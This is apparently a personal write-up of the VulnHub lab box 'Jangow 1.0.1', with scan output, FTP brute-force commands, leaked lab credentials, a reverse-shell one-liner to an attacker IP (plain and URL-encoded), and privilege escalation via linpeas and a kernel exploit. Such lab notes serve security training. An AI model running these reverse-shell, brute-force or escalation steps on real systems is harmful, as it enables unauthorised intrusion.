





# JANGOW

Difficulty: easy

The secret to this box is enumeration! Inquiries jangow2021@gmail.com

This works better with VirtualBox rather than VMware ## Changelog 2021-11-04 - v1.0.1 2021-11-01 - v1.0.0

---

Filename: jangow-01-1.0.1.ova
File size: 828 MB
MD5: B9E912D79CC304676E1A07558284B8AB
SHA1: 3E50B4168FA2D83AA10F05D2F66C5A7071F3C927

---

## [Jangow: 1.0.1 ~ VulnHub](https://www.vulnhub.com/entry/jangow-101,754/)

---

192.168.56.118


---

## 5. Juli - 2024 - Real Start & Scanning





```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sV 192.168.56.118
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-05 18:21 CEST
Nmap scan report for 192.168.56.118
Host is up (0.036s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
Service Info: Host: 127.0.0.1; OS: Unix
```

```sh
┌──(kali㉿kali)-[~]
└─$ nmap --script vuln 192.168.56.118
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-06 11:08 CEST
Stats: 0:04:03 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.52% done; ETC: 11:12 (0:00:03 remaining)
Nmap scan report for 192.168.56.118
Host is up (0.0069s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http
| http-sql-injection: 
|   Possible sqli for queries:
|     http://192.168.56.118:80/?C=S%3BO%3DA%27%20OR%20sqlspider
|     http://192.168.56.118:80/?C=D%3BO%3DA%27%20OR%20sqlspider
|_http-dombased-xss: Couldn't find any DOM based XSS.
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-fileupload-exploiter: 
|   
|_    Couldn't find a file-type field.
| http-enum: 
|   /: Root directory w/ listing on 'apache/2.4.18 (ubuntu)'
|_  /site/: Potentially interesting folder

Nmap done: 1 IP address (1 host up) scanned in 326.16 seconds
```

```sh
┌──(kali㉿kali)-[~]
└─$ nmap -sC -sV 192.168.56.118                                    
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-06 13:31 CEST
Nmap scan report for 192.168.56.118
Host is up (0.025s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
80/tcp open  http    Apache httpd 2.4.18
| http-ls: Volume /
| SIZE  TIME              FILENAME
| -     2021-06-10 18:05  site/
|_
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Index of /
Service Info: Host: 127.0.0.1; OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.48 seconds
```


#masscan 
```sh
┌──(kali㉿kali)-[~]
└─$ sudo masscan -p1-65535 192.168.56.118 --rate=1000
[sudo] password for kali: 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2024-07-06 09:09:37 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 80/tcp on 192.168.56.118                                 Discovered open port 21/tcp on 192.168.56.118   
```

#enum4linux


#SNMP #ssh-audit
```sh
┌──(kali㉿kali)-[~]
└─$ snmp-check 192.168.56.118
snmp-check v1.9 - SNMP enumerator
Copyright (c) 2005-2015 by Matteo Cantoni (www.nothink.org)

[+] Try to connect to 192.168.56.118:161 using SNMPv1 and community 'public'

[!] 192.168.56.118:161 SNMP request timeout

┌──(kali㉿kali)-[~]
└─$ ssh-audit 192.168.56.118
[exception] cannot connect to 192.168.56.118 port 22: timed out
```

#### use auxiliary/scanner/http/dir_scanner
```sh
msf6 > use auxiliary/scanner/http/dir_scanner
msf6 auxiliary(scanner/http/dir_scanner) > 
msf6 auxiliary(scanner/http/dir_scanner) > options

Module options (auxiliary/scanner/http/dir_scanner):

   Name        Current Setting                       Required  Description
   ----        ---------------                       --------  -----------
   DICTIONARY  /usr/share/metasploit-framework/data  no        Path of word dictionary to use
               /wmap/wmap_dirs.txt
   PATH        /                                     yes       The path  to identify files
   Proxies                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                            yes       The target host(s), see https://docs.metasploit.com/docs/using-me
                                                               tasploit/basics/using-metasploit.html
   RPORT       80                                    yes       The target port (TCP)
   SSL         false                                 no        Negotiate SSL/TLS for outgoing connections
   THREADS     1                                     yes       The number of concurrent threads (max one per host)
   VHOST                                             no        HTTP server virtual host


View the full module info with the info, or info -d command.

msf6 auxiliary(scanner/http/dir_scanner) > set rhosts 192.168.56.118
rhosts => 192.168.56.118
msf6 auxiliary(scanner/http/dir_scanner) > run

```

#### [[JANGOW - ChatGPT]]


##### Banner Grabbing and Information Gathering
```sh
nc 192.168.56.118 21   
220 (vsFTPd 3.0.3)
421 Timeout.
```

#searchsploit
```sh
┌──(kali㉿kali)-[~]
└─$ searchsploit vsftpd 3.0.3
vsftpd 3.0.3 - Remote Denial of Service | multiple/remote/49719.py
Shellcodes: No Results
```


### HTTP



#### gobuster
#gobuster

```sh
┌──(kali㉿kali)-[~]
└─$ gobuster dir -u http://192.168.56.118 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.118
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/site                 (Status: 301) [Size: 315] [--> http://192.168.56.118/site/]
/server-status        (Status: 403) [Size: 279]
Progress: 133415 / 220561 (60.49%)[ERROR] Get "http://192.168.56.118/152077": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://192.168.56.118/56043": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://192.168.56.118/152320": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
[ERROR] Get "http://192.168.56.118/56048": context deadline exceeded (Client.Timeout exceeded while awaiting headers)
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

#### dirb
#dirb



#### nikto
#nikto

```sh
┌──(kali㉿kali)-[~]
└─$ nikto -h http://192.168.56.118
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.56.118
+ Target Hostname:    192.168.56.118
+ Target Port:        80
+ Start Time:         2024-07-05 23:52:56 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/we
+ /: Directory indexing found.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: OPTIONS, GET, HEAD, POST .
+ /./: Directory indexing found.
+ /./: Appending '/./' to a directory allows indexing.
+ //: Directory indexing found.
+ //: Apache on Red Hat Linux release 9 reveals the root directory listing by default if there is no index page.
+ /%2e/: Directory indexing found.
+ /%2e/: Weblogic allows source code or directory listing, upgrade to v6.0 SP1 or higher. See: http://www.securityfocus.com/bid/2513
+ ///: Directory indexing found.
+ /?PageServices: The remote server may allow directory listings through Web Publisher by forcing the server to show all files via 'open directory browsing'. Web Publisher should be disabled. 
+ /?wp-cs-dump: The remote server may allow directory listings through Web Publisher by forcing the server to show all files via 'open directory browsing'. Web Publisher should be disabled. Se
+ /////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////
+ //////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////////sted. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2002-1078
+ /icons/README: Apache default file found. See: https://www.vntweb.co.uk/apache-restricting-access-to-iconsreadme/
+ 8102 requests: 0 error(s) and 17 item(s) reported on remote host
+ End Time:           2024-07-05 23:53:36 (GMT2) (40 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```


```
 4 Captured ARP Req/Rep packets, from 3 hosts.   Total size: 240                                                         
 _____________________________________________________________________________
   IP            At MAC Address     Count     Len  MAC Vendor / Hostname      
 -----------------------------------------------------------------------------
 192.168.56.100  08:00:27:76:fb:51      2     120  PCS Systemtechnik GmbH      
 192.168.56.109  0a:00:27:00:00:0b      1      60  Unknown vendor
 192.168.56.118  08:00:27:d1:40:7d      1      60  PCS Systemtechnik GmbH 
```


### FTP & hydra

- [x] hydra -l jangow01 -P /usr/share/wordlists/metasploit/unix_passwords.txt ftp://192.168.56.118 
- [x] hydra -l admin -P /usr/share/wordlists/metasploit/unix_passwords.txt ftp://192.168.56.118 
- [x] hydra -l root -P unix_passwords.txt ftp://192.168.56.118
- [ ] hydra -l admin -P rockyou.txt ftp://192.168.56.118
- [ ] hydra -l jangow01 -P rockyou.txt ftp://192.168.56.118


---
---

## 6. Juni - Local File Inclusion Vulnerability
#LocalFileInclusion #LFI

### Busque - Buscar - Search

```sh
ls -al

total 40
drwxr-xr-x 6 www-data www-data  4096 Jun 10  2021 .
drwxr-xr-x 3 root     root      4096 Oct 31  2021 ..
drwxr-xr-x 3 www-data www-data  4096 Jun  3  2021 assets
-rw-r--r-- 1 www-data www-data    35 Jun 10  2021 busque.php
drwxr-xr-x 2 www-data www-data  4096 Jun  3  2021 css
-rw-r--r-- 1 www-data www-data 10190 Jun 10  2021 index.html
drwxr-xr-x 2 www-data www-data  4096 Jun  3  2021 js
drwxr-xr-x 2 www-data www-data  4096 Jun 10  2021 wordpress
```

```sh
ls -al wordpress
total 24
drwxr-xr-x 2 www-data www-data  4096 Jun 10  2021 .
drwxr-xr-x 6 www-data www-data  4096 Jun 10  2021 ..
-rw-r--r-- 1 www-data www-data   347 Jun 10  2021 config.php
-rw-r--r-- 1 www-data www-data 10190 Jun 10  2021 index.html
```

```php
ls -al /var/www/html


cat /var/www/html/.backup

$servername = "localhost";
$database = "jangow01";
$username = "jangow01";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
```

```php
cat wordpress/config.php

<?php
$servername = "localhost";
$database = "desafio02";
$username = "desafio02";
$password = "abygurl69";
// Create connection
$conn = mysqli_connect($servername, $username, $password, $database);
// Check connection
if (!$conn) {
    die("Connection failed: " . mysqli_connect_error());
}
echo "Connected successfully";
mysqli_close($conn);
?>
```


```php
ftp> cd jangow01
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||31934|)
150 Here comes the directory listing.
-rw-rw-r--    1 1000     1000           33 Jun 10  2021 user.txt
226 Directory send OK.
ftp> get user.txt
local: user.txt remote: user.txt
229 Entering Extended Passive Mode (|||5638|)
150 Opening BINARY mode data connection for user.txt (33 bytes).
100% |**************************************************************|    33       37.16 KiB/s    00:00 ETA
226 Transfer complete.
33 bytes received in 00:00 (17.34 KiB/s)
ftp> 

d41d8cd98f00b204e9800998ecf8427e
```

---
---
### Method 1: Using php-reverse-shell.php

- Get code from GitHub [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
- try ``put test.php`` inside the ftp

<div align="center">


</div>

### Method 2: Using Netcat 🥅🐈‍⬛🐈

```sh
┌──(kali㉿kali)-[~]
└─$ nc 192.168.56.118 21
220 (vsFTPd 3.0.3)
USER jangow01
331 Please specify the password.
PASS abygurl69
230 Login successful.
ls
500 Unknown command.
help
214-The following commands are recognized.
 ABOR ACCT ALLO APPE CDUP CWD  DELE EPRT EPSV FEAT HELP LIST MDTM MKD
 MODE NLST NOOP OPTS PASS PASV PORT PWD  QUIT REIN REST RETR RMD  RNFR
 RNTO SITE SIZE SMNT STAT STOR STOU STRU SYST TYPE USER XCUP XCWD XMKD720
 XPWD XRMD
214 Help OK.

```

<div align="center">


</div>


### Method 3: Using Bash Shell Script

<div align="center">


</div>

- Get code from site [reverse-shell-cheat-sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- netcap `nc -lvnp 443`
- `run inside buscar: bash -i >& /dev/tcp/192.168.56.52/443 0>&1`
- Use [URL-encoder](https://www.urlencoder.org/)
	- ``/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.52/443 0>&1'``
	- ``%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.52%2F443%200%3E%261%27``

```bash
bash -i >& /dev/tcp/192.168.56.52/443 0>&1

/bin/bash -c 'bash -i >& /dev/tcp/192.168.56.52/443 0>&1'
%2Fbin%2Fbash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.56.52%2F443%200%3E%261%27

┌──(kali㉿kali)-[~]
└─$ nc -lvnp 443        
listening on [any] 443 ...
connect to [192.168.56.52] from (UNKNOWN) [192.168.56.118] 42396
bash: cannot set terminal process group (2729): Inappropriate ioctl for device
bash: no job control in this shell
www-data@jangow01:/var/www/html/site$

# This will make the shell experince "better"
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm


whoami
www-data
# Change user
su jangow01
Password: abygurl69

jangow01@jangow01:/var/www/html/site$ 

# check hidden files
jangow01@jangow01:/var/www/html/site$ cd /home/jangow01 
cd /home/jangow01
jangow01@jangow01:~$ ls
ls
user.txt
jangow01@jangow01:~$ ls -al
ls -al
total 36
drwxr-xr-x 4 jangow01 desafio02 4096 Jun 10  2021 .
drwxr-xr-x 3 root     root      4096 Out 31  2021 ..
-rw------- 1 jangow01 desafio02  200 Out 31  2021 .bash_history
-rw-r--r-- 1 jangow01 desafio02  220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 jangow01 desafio02 3771 Jun 10  2021 .bashrc
drwx------ 2 jangow01 desafio02 4096 Jun 10  2021 .cache
drwxrwxr-x 2 jangow01 desafio02 4096 Jun 10  2021 .nano
-rw-r--r-- 1 jangow01 desafio02  655 Jun 10  2021 .profile
-rw-r--r-- 1 jangow01 desafio02    0 Jun 10  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 jangow01 desafio02   33 Jun 10  2021 user.txt
```


## Privilege Escalation
#PrivilegeEscalation


- [GitHub - PEASS-ng](https://github.com/peass-ng/PEASS-ng)
	- Release - Assets ``linpeas.sh``
- Move the file with FTP
	- ``put linpeas.sh``
- run the file on the machine `./linpeas.sh`
- Use this exploit: `[CVE-2017-16995] eBPF_verifier`
- find it on ``EXPLOIT DATABASE``
	- https://www.exploit-db.com/exploits/45010
- Move the file with FTP in the home/janrow01 directory
	- put 45010.c
- compile the file with gcc
	- ``gcc 45010.c -o CVE-2017-16995``
- 

```sh
ftp> cd /home/jangow01
250 Directory successfully changed.
ftp> put linpeas.sh
local: linpeas.sh remote: linpeas.sh
229 Entering Extended Passive Mode (|||46082|)
150 Ok to send data.
100% |*****************************************************************************|   840 KiB   37.74 MiB/s    00:00 ETA
226 Transfer complete.
860337 bytes sent in 00:00 (26.38 MiB/s)
ftp> 
```

```sh

# Check if linpeas.sh is there
jangow01@jangow01:~$ ls -al              
ls -al
total 880
drwxr-xr-x 4 jangow01 desafio02   4096 Jul  6 08:57 .
drwxr-xr-x 3 root     root        4096 Out 31  2021 ..
-rw------- 1 jangow01 desafio02    200 Out 31  2021 .bash_history
-rw-r--r-- 1 jangow01 desafio02    220 Jun 10  2021 .bash_logout
-rw-r--r-- 1 jangow01 desafio02   3771 Jun 10  2021 .bashrc
drwx------ 2 jangow01 desafio02   4096 Jun 10  2021 .cache
-rw------- 1 jangow01 desafio02 860337 Jul  6 08:57 linpeas.sh
drwxrwxr-x 2 jangow01 desafio02   4096 Jun 10  2021 .nano
-rw-r--r-- 1 jangow01 desafio02    655 Jun 10  2021 .profile
-rw-r--r-- 1 jangow01 desafio02      0 Jun 10  2021 .sudo_as_admin_successful
-rw-rw-r-- 1 jangow01 desafio02     33 Jun 10  2021 user.txt

# Change Privilege
jangow01@jangow01:~$ chmod +x linpeas.sh

-rwx--x--x 1 jangow01 desafio02 860337 Jul  6 08:57 linpeas.sh

# execute
./linpeas.sh
```



### [[jangow01 - linpeas.sh]]

```sh
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester   

[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html                                
   Exposure: highly probable                                                                                                            Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: probable
   Tags: centos=6|7|8,[ ubuntu=14|16|17|18|19|20 ], debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2017-7308] af_packet

   Details: https://googleprojectzero.blogspot.com/2017/05/exploiting-linux-kernel-via-packet.html
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.8.0-(34|36|39|41|42|44|45)-generic}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-7308/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-7308/poc.c
   Comments: CAP_NET_RAW cap or CONFIG_USER_NS=y needed. Modified version at 'ext-url' adds support for additional kernels

[+] [CVE-2017-6074] dccp

   Details: http://www.openwall.com/lists/oss-security/2017/02/22/3
   Exposure: probable
   Tags: [ ubuntu=(14.04|16.04) ]{kernel:4.4.0-62-generic}
   Download URL: https://www.exploit-db.com/download/41458
   Comments: Requires Kernel be built with CONFIG_IP_DCCP enabled. Includes partial SMEP/SMAP bypass

[+] [CVE-2017-1000112] NETIF_F_UFO

   Details: http://www.openwall.com/lists/oss-security/2017/08/13/1
   Exposure: probable
   Tags: ubuntu=14.04{kernel:4.4.0-*},[ ubuntu=16.04 ]{kernel:4.8.0-*}
   Download URL: https://raw.githubusercontent.com/xairy/kernel-exploits/master/CVE-2017-1000112/poc.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2017-1000112/poc.c
   Comments: CAP_NET_ADMIN cap or CONFIG_USER_NS=y needed. SMEP/KASLR bypass included. Modified version at 'ext-url' adds support for additional distros/kernels

[+] [CVE-2016-4997] target_offset

   Details: https://www.exploit-db.com/exploits/40049/
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/40053.zip
   Comments: ip_tables.ko needs to be loaded

[+] [CVE-2016-4557] double-fdput()

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=808
   Exposure: probable
   Tags: [ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/39772.zip
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

[+] [CVE-2019-18634] sudo pwfeedback

